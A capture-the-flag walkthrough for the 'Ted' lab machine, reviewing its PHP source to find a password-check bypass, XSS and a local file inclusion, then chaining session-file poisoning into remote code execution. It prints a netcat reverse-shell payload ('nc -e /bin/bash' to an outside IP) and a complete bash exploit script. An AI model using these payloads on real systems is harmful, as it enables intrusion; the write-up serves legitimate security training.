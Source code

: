 ### Ted - Authenticated Local File Inclusion

Within this walkthrough, I will skip any part not related to the web application exploitation, but for sake of consistency I would briefly explain what (and why) I skip.

#### Intro

Ted is really a simple web application. The application is made of only 5 PHP files, so not even close to be an OSWE-like challenge, but it's really worth to be done for guys doing OSCP and OSCE as well. The vulnerability resides in the authenticated part of the application, which is possible to bypass due to its silly login implementation.

#### Vulnerability Discovery

We'll start looking at the index.php file, which contains just a login form, with a post action to authenticate.php 

```html
<form action="authenticate.php" method="post">
```

##### Authentication Bypass

Reviewing the authenticated.php file, it's possible to see that the login functionality seems to be securely using prepared statements:

```php
<?php
// Prepare our SQL, preparing the SQL statement will prevent SQL injection.
if ($stmt = $con->prepare('SELECT id, password FROM accounts WHERE username = ?')) {
    // Bind parameters (s = string, i = int, b = blob, etc), in our case the username is a string so we use "s"
    $stmt->bind_param('s', $_POST['username']);
    $stmt->execute();
    // Store the result so we can check if the account exists in the database.
    $stmt->store_result();
}

if ($stmt->num_rows > 0) {
    $stmt->bind_result($id, $password);
    $stmt->fetch();
?>
```

However, a very silly mistake is made into checking the user password after fetching:

```php
<?php
if ($_POST['password'] ==  $password) {
            // Verification success! User has loggedin!
    ...
} elseif ($_POST['password'] == "admin") {
            echo "<p>Password hash is not correct, make sure to hash it before submit.</p>";
} else {...}
?>
```

Does that actually mean that the hashed version of admin is the right password?
We can access the database directly on Ted, using the credentials provided in `authenticate.php` below:

```php
$DATABASE_HOST = 'localhost';
$DATABASE_USER = 'user';
$DATABASE_PASS = 'password';
$DATABASE_NAME = 'dbname'
```

Let's firstly see with hash is stored in the database, with the following command:

```bash
mysql -uuser -ppassword dbname -e 'select password from accounts where username="admin";' 2>/dev/null | grep -P "[A-Z0-9]+
```
It seems like a sha256 hash; to confirm that, it sufficient to run the following script directly on Ted:

```bash
#!/bin/bash
# Retrieve the hash from the DB
dbhash=$(mysql -uuser -ppassword dbname -e 'select password from accounts where username="admin";' 2>/dev/null | grep -P "[A-Z0-9]+")
# Generate the sha256 of "admin" in uppercase, to match the case of the DB hash
hash=$(printf admin | sha256sum | awk '{print toupper($1)}')
# Compare the two hashes
if [[ "$dbhash" == "$hash" ]]; then
    echo "TRUE"
else
    echo "FALSE"
fi
```

We can now login successfully, so we can start reviewing the authenticated part of the code. Within the `authenticate.php` file, it is possible to see that just after login the user is redirected to `home.php`.

```php
<?php
if ($_POST['password'] ==  $password) {
    ...
    header('Location: home.php');
```

##### Local File Inclusion

Analysing the `home.php`, we can immediately identify at least two vulnerabilities (there is another one but we will talk about it later):

```php
<?php
1. if (isset($_POST['search'])) {
2.     echo "Showing results for ".$_POST['search'].":";
3.     ...
4. } 
5. include($_POST['search']);
```

* At line 2: The search parameter value is reflected back to the user without any prior validation, potentially resulting in a Cross-Site-Scripting (XSS) (Not really important for this exercise)
* At line 5: The search parameter value is included in the page, allowing us to include a local file. To test it, it's enough to insert in the search box `../../../etc/passwd`, the content of the passwd file will be shown.

##### Exploitation

A small note on PHP LFI to RCE:

>There are multiple ways to achieve RCE from LFI in PHP, to exploit Ted it is necessary to have an understanding on how this process works. There are files
on the filesystem which an attacker can modify even not having direct access to the machine, that are the log files. For example, it is possible to write php code in apache access.log with a crafted request, or to the auth.log with a crafted ssh login attempt, and so on. However, these files are usually not accessible to the www-data user, hence not really usable. For a brief list of all the techniques that can be used to achieve RCE, I would suggest going to the following site: [LFI-RCE](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion)

So, it's only necessary to find the correct file or technique to use. Luckily, seeing the code make this process fairly easy. Indeed, something at the very beginning of the `home.php` file should capture our attention, as for below snippet:

```php
1. <?php
2.    session_start();
3.    if (!isset($_SESSION['loggedin'])) {
4.        header('Location: index.html');
5.        exit();
6.    }
7.    $_SESSION['user_pref'] = $_COOKIE['user_pref']; // Injection point
8. ?>
```

It may not be immediately obvious, if you don't recall how sessions are maintained in PHP. The `$_SESSION` object, indeed, is stored as a file under a predefined path (in this case `/var/lib/php/sessions/`), and name, that is usually obtained concatenating the sess_ prefix with the PHPSESSID value (i.e. `sess_0oqh1580kqa1q9s4srsbnue2b0`).

For that reason, as we can control a value in the $_SESSION object, we can use that to inject a PHP payload in the session file.

If we add the cookie `user_pref=<?php system('nc -e /bin/bash 192.168.226.129 443')?>` to our first call to `home.php` after login, and then we inspect the content of the relative session file, it will look like that:

```bash
root@ubuntu:/var/lib/php/sessions# cat sess_hrcagu6l6tdqfunma6ftltkvj3
loggedin|b:1;name|s:5:"admin";id|i:1;user_pref|s:52:"<?php system('nc -e /bin/bash 192.168.226.129 443')?>";
```

Summarising, in order to exploit the application, we'll undertake the following steps:

1. Login into the application
2. Inject a PHP backdoor in the session file
3. Trigger the backdoor with the LFI vulnerability

The completed exploit:

```bash
#!/bin/bash

proxy="-x http://127.0.0.1:8080"
backdoor="user_pref=<?php system('nc -e /bin/bash 192.168.226.129 443')?>"

echo "[+] Logging In";
cookie=$(curl -ksi -X POST -H "Cookie: PHPSSESID=$cookie" --data-binary 'username=admin&password=8C6976E5B5410415BDE908BD4DEE15DFB167A9C873FC4BB8A81F6F2AB448A918'  'http://ted.local/authenticate.php' $proxy | grep 'PHPSESSID' |  awk -F"=" '{print $2}' | tail -n 1 | awk -F";" '{print $1}')
sleep 1
echo "[+] Injecting Backdoor";
curl -ksi -X GET 'http://ted.local/home.php' -H "Cookie: PHPSESSID=$cookie; $backdoor" $proxy &>/dev/null
echo "[+] Getting evil shell..";
sleep 1
curl -ksi -X POST -H "Cookie: PHPSESSID=$cookie; $backdoor" --data-binary "search=../../../var/lib/php/sessions/sess_$cookie" 'http://ted.local/home.php' $proxy &>/dev/null
echo "[+] Done!";
```

#### Conclusions

Ted was somehow a funny machine, however, the small number of files to analyse, and the lack of complexity within the code, made it not enough of a challenge comparing it to the OSWE.
